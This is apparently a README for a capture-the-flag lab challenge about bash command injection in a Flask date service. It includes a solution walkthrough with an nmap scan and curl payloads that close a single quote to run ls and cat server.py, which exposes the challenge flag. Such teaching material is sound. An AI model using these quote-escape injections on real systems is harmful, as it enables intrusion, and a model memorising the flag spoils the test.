 # What's the date

Challenge testing bash command injection

### Task

There is an awesome free service returning you current date running at 172.20.0.30. Fortunately, an author did its best to secure the app. Was it enough?

## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>

1. Use `nmap` to find opened ports:
```bash
root@hackerlab:~# nmap 172.20.0.30
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-07 09:30 UTC
Nmap scan report for bsy-playground-what-is-the-date-1.bsy-playground_playground-net (172.20.0.30)
Host is up (0.0000060s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:14:00:1E (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
```

2. Discover opened port 80 and try to manipulate with the server functionality:
```bash
root@hackerlab:~# curl http://172.20.0.30/   
<html>
        <head>
                <style>
                        body, pre {
                                color: #7b7b7b;
                                font: 300 16px/25px "Roboto",Helvetica,Arial,sans-serif;
                        }
                </style>
        <meta name="generator" content="vi2html">
        </head>
        <body>
        </br>
    See GET /cmd/date endpoint.</br>
    </body>
</html>
root@hackerlab:~# curl http://172.20.0.30/cmd/date
Tue May  7 09:31:30 UTC 2024
root@hackerlab:~# curl "http://172.20.0.30/cmd/date;ls"
/bin/sh: 1: date;ls: not found
```
3. We see we might inject some bash command. After some tweaking we must realize the inserted command is put between single quotes `'<cmd>'`. We can inject commands by ending the quotes.
```bash
root@hackerlab:~# curl "http://172.20.0.30/cmd/date';'ls"
Tue May  7 09:34:07 UTC 2024
index.html
server.py
root@hackerlab:~# curl "172.20.0.30/cmd/date';cat%20server.py;'ls;"
Tue May  7 09:34:35 UTC 2024
import subprocess

from flask import Flask, send_file

# Oh no, my quote was not enough? :O
# bsy{WYwjgqdrtyTiH9MFnyxMqvsFyYob0qGHYATtzf0HWoXiKnTofAUkVqAR4bed}

app = Flask(__name__)

def quote(cmd: str) -> str:
    return f"'{cmd}'"
...
```

</details>

## Testing

The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.
